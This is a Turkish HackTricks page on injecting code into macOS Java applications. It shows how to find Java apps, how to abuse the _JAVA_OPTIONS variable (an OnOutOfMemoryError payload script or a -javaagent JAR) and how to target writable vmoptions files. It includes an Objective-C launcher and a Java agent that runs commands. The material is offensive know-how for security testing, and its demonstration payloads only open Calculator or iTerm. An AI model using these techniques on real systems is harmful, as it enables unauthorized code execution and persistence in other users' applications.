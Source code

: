 # macOS Java Uygulamaları Enjeksiyonu

{{#include ../../../banners/hacktricks-training.md}}

## Sayım

Sisteminizde yüklü Java uygulamalarını bulun. **Info.plist** dosyasındaki Java uygulamalarının **`java.`** dizesini içeren bazı java parametreleri barındırdığı gözlemlenmiştir, bu yüzden bunun için arama yapabilirsiniz:
```bash
# Search only in /Applications folder
sudo find /Applications -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null

# Full search
sudo find / -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null
```
## \_JAVA_OPTIONS

Env değişkeni **`_JAVA_OPTIONS`** bir java derlenmiş uygulamasının yürütülmesinde rastgele java parametreleri enjekte etmek için kullanılabilir:
```bash
# Write your payload in a script called /tmp/payload.sh
export _JAVA_OPTIONS='-Xms2m -Xmx5m -XX:OnOutOfMemoryError="/tmp/payload.sh"'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"
```
Bunu yeni bir işlem olarak ve mevcut terminalin bir çocuğu olarak değil, çalıştırmak için şunu kullanabilirsiniz:
```objectivec
#import <Foundation/Foundation.h>
// clang -fobjc-arc -framework Foundation invoker.m -o invoker

int main(int argc, const char * argv[]) {
@autoreleasepool {
// Specify the file path and content
NSString *filePath = @"/tmp/payload.sh";
NSString *content = @"#!/bin/bash\n/Applications/iTerm.app/Contents/MacOS/iTerm2";

NSError *error = nil;

// Write content to the file
BOOL success = [content writeToFile:filePath
atomically:YES
encoding:NSUTF8StringEncoding
error:&error];

if (!success) {
NSLog(@"Error writing file at %@\n%@", filePath, [error localizedDescription]);
return 1;
}

NSLog(@"File written successfully to %@", filePath);

// Create a new task
NSTask *task = [[NSTask alloc] init];

/// Set the task's launch path to use the 'open' command
[task setLaunchPath:@"/usr/bin/open"];

// Arguments for the 'open' command, specifying the path to Android Studio
[task setArguments:@[@"/Applications/Android Studio.app"]];

// Define custom environment variables
NSDictionary *customEnvironment = @{
@"_JAVA_OPTIONS": @"-Xms2m -Xmx5m -XX:OnOutOfMemoryError=/tmp/payload.sh"
};

// Get the current environment and merge it with custom variables
NSMutableDictionary *environment = [NSMutableDictionary dictionaryWithDictionary:[[NSProcessInfo processInfo] environment]];
[environment addEntriesFromDictionary:customEnvironment];

// Set the task's environment
[task setEnvironment:environment];

// Launch the task
[task launch];
}
return 0;
}
```
Ancak, bu çalıştırılan uygulamada bir hata tetikleyecektir, daha gizli bir yol ise bir java ajanı oluşturmak ve şunu kullanmaktır:
```bash
export _JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```
> [!CAUTION]
> Uygulamadan **farklı bir Java sürümü** ile ajan oluşturmak, hem ajanın hem de uygulamanın çalışmasını çökertilebilir.

Ajanın nerede olabileceği:
```java:Agent.java
import java.io.*;
import java.lang.instrument.*;

public class Agent {
public static void premain(String args, Instrumentation inst) {
try {
String[] commands = new String[] { "/usr/bin/open", "-a", "Calculator" };
Runtime.getRuntime().exec(commands);
}
catch (Exception err) {
err.printStackTrace();
}
}
}
```
Ajanı derlemek için çalıştırın:
```bash
javac Agent.java # Create Agent.class
jar cvfm Agent.jar manifest.txt Agent.class # Create Agent.jar
```
`manifest.txt` ile:
```
Premain-Class: Agent
Agent-Class: Agent
Can-Redefine-Classes: true
Can-Retransform-Classes: true
```
Ve ardından env değişkenini dışa aktarın ve java uygulamasını şu şekilde çalıştırın:
```bash
export _JAVA_OPTIONS='-javaagent:/tmp/j/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```
## vmoptions dosyası

Bu dosya, Java çalıştırıldığında **Java parametrelerinin** belirtilmesini destekler. Java parametrelerini değiştirmek ve **sürecin rastgele komutlar çalıştırmasını sağlamak** için önceki hilelerden bazılarını kullanabilirsiniz.\
Ayrıca, bu dosya `include` dizini ile **başka dosyaları da içerebilir**, böylece dahil edilen bir dosyayı da değiştirebilirsiniz.

Dahası, bazı Java uygulamaları **birden fazla `vmoptions`** dosyasını **yükleyecektir**.

Android Studio gibi bazı uygulamalar, bu dosyaları nerede aradıklarını **çıktılarında belirtir**, örneğin:
```bash
/Applications/Android\ Studio.app/Contents/MacOS/studio 2>&1 | grep vmoptions

2023-12-13 19:53:23.920 studio[74913:581359] fullFileName is: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] fullFileName exists: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.921 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app.vmoptions
2023-12-13 19:53:23.922 studio[74913:581359] parseVMOptions: /Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
2023-12-13 19:53:23.923 studio[74913:581359] parseVMOptions: platform=20 user=1 file=/Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
```
Eğer yapmazlarsa, bunu kolayca kontrol edebilirsiniz:
```bash
# Monitor
sudo eslogger lookup | grep vmoption # Give FDA to the Terminal

# Launch the Java app
/Applications/Android\ Studio.app/Contents/MacOS/studio
```
Android Studio'nun bu örnekte **`/Applications/Android Studio.app.vmoptions`** dosyasını yüklemeye çalışmasının ne kadar ilginç olduğunu not edin; bu, **`admin`** grubundaki herhangi bir kullanıcının yazma erişimine sahip olduğu bir yerdir. 

{{#include ../../../banners/hacktricks-training.md}}
